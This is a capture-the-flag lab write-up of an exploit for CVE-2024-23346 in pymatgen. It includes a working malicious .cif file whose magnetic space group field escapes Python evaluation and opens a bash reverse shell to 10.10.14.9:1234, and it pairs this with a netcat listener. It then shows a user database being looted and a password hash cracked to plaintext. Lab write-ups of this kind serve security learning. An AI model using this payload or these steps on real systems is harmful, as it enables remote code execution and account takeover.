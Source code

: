 The website is asking to upload a ```.cif``` file. After researching, i find a CVE with file ```.cif``` upload with poc in [github repo](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)   

## Cracking CVE-2024-23346

Now with this poc so i create a ```.cif``` file to get a reverse shell. I just copy example data from example file from lab and change the shell to send reverse shell, you should change the IP and port. by 

```"/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.9/1234 0>&1\'"```


```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.9/1234 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Now that we have ```vuln.cif```, we can upload it and have reverse shell by listening with netcat 

```nc -nvlp 1234```

![image]()

#### We now have a reverse shell

Now we check the user and specify that we must find the credentials of the user ```rosa```

Check some files in the directory, we can see a file ```database.db``` is suspicious. Maybe we can find the credentials of the user in there

![image]()

By reading the database, we can find a table ```user``` has the credentials of all users with hash password and rosa is one of them.

![image]()

Use this hash password in crackstation, so we can find the password of ```rosa``` is ```unicorniosrosados```

#### We now have credentials of rosa and get user flag by using ssh

```